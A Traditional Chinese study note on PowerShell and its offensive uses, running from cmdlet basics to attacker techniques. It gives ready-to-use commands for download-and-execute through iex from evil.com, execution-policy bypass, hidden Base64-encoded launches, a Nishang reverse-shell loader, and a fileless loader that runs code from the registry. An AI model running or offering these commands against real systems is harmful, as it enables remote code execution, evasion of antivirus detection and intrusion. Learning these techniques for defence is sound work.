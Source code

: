 ## 🔍 PowerShell 是什麼？

- PowerShell 是基於 .NET Framework 的命令列 shell 與腳本語言。
    
- 用於系統管理與自動化，但也常被攻擊者當作滲透利器。
    
- Windows 7 SP1 起預設安裝，廣泛存在於各種 Windows 作業系統中。
    

---

## 💡 介面類型

1. **CLI**：`powershell.exe`
    
2. **GUI**：`PowerShell_ISE.exe`（整合式腳本環境）

---
## 📜 PowerShell 基礎語法回顧

### ▪ Cmdlet 命名格式

- 標準格式為：`動詞-名詞`（Verb-Noun）
    
    - 例：`Get-Service`, `Start-Process`
        

### ▪ 常見參數

- `-WhatIf`：模擬執行但不實際執行
    
- `-Force`：強制執行操作
    
- `-ComputerName`：遠端操作
    
- `-Identity`：指定目標對象
    

### ▪ 查詢說明

- `Get-Help <Cmdlet>`（加上 `-Full` 或 `-Examples` 查看完整用法）
    

---
## 🛠️ 攻擊者常見用途

### 1. 在記憶體中執行（Memory-only）

- 利用 `Invoke-Expression`（`iex`）直接執行 payload，不落地檔案，**避開防毒偵測**。

### 2. 遠端下載與執行

- 範例：
    
```
iex (New-Object Net.WebClient).DownloadString("http://evil.com/payload.ps1")
```
    

### 3. 呼叫 Windows API & .NET Code

- 如匯入 `System.Management.Automation.dll` 來建立複雜功能。

---
## 🚫 執行政策與繞過方法

### PowerShell 執行政策（Execution Policy）

|模式|說明|
|---|---|
|`Restricted`（預設）|禁止所有腳本執行|
|`AllSigned`|僅允許簽章過的腳本|
|`RemoteSigned`|本機腳本允許，遠端腳本需簽章|
|`Unrestricted`|允許執行所有腳本，彈出警告|
|`Bypass`|無限制、無提示|

### 修改方式：

powershell

複製

`Set-ExecutionPolicy Unrestricted`

### 一次性繞過（不需改變全局設定）：

powershell

複製

`powershell.exe -ExecutionPolicy Bypass -File script.ps1`

---

## 🎭 混淆與反偵測技巧

### ▪ Base64 編碼執行（EncodedCommand）

- 攻擊者將 payload 編碼成 Base64 並傳入 `EncodedCommand`
    
- 範例：
    
    `powershell.exe -WindowStyle Hidden -NoProfile -EncodedCommand <Base64Payload>`
    

### ▪ 常見參數組合


`powershell.exe -WindowStyle Hidden -NoProfile -ExecutionPolicy Bypass -EncodedCommand ...`

---
## 💥 進階攻擊範例

### ▪ 使用 `iex` 建立 Reverse Shell

#### 📡 HTTP：

```
iex (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/samratashok/nishang/master/Shells/Invoke-PowerShellTcp.ps1')
```

#### 📡 TCP、ICMP、UDP、HTTPS

Nishang 提供多種 Shell 模組：

- `Invoke-PowerShellTcp`
- `Invoke-PowerShellUdp`
- `Invoke-PowerShellIcmp`
- `Invoke-PoshRatHttps`

Nishang GitHub： 👉 [https://github.com/samratashok/nishang](https://github.com/samratashok/nishang)

---

## 🧬 Fileless PowerShell 攻擊

### Registry-based 載入攻擊

將 base64 編碼的惡意腳本寫入 Registry，再以 PowerShell 解碼執行：

```
powershell.exe -windowstyle hidden -noprofile -executionpolicy bypass iex( 
	[Text.Encoding]::ASCII.GetString(
		[Convert]::FromBase64String(
			(gp 'HKCU:\Software\Classes\UBZZXDJZAOGD').XLQWFZRMYEZV
		)   
	) 
)
```

- 範例來源：[https://isc.sans.edu/diary/Powershell+Malware+No+Hard+drive+Just+hard+times/20823](https://isc.sans.edu/diary/Powershell+Malware+No+Hard+drive+Just+hard+times/20823)